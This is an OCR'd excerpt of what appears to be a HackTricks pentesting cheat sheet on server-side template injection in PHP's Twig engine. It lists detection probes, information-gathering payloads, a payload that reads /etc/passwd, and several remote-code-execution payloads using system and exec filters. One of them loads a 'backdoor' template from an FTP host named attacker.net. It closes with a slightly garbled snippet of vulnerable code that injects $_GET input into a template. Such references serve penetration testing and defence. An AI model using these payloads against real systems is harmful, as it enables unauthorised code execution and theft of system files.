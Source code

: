 
## 

Twig (PHP)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#twig-php)

-   `{{7*7}} = 49`
    

-   `${7*7} = ${7*7}`
    

-   `{{7*'7'}} = 49`
    

-   `{{1/0}} = Error`
    

-   `{{foobar}} Nothing`
    

#Get Info

{{_self}} #(Ref. to current application)

{{_self.env}}

{{dump(app)}}

{{app.request.server.all|join(',')}}

​

#File read

"{{'/etc/passwd'|file_excerpt(1,30)}}"@

​

#Exec code

{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}

{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}

{{['id']|filter('system')}}

{{['cat\x20/etc/passwd']|filter('system')}}

{{['cat$IFS/etc/passwd']|filter('system')}}

**Twig - Template format**

$output = $twig > render (

'Dear' . $_GET['custom_greeting'],

array("first_name" => $user.first_name)

);

​
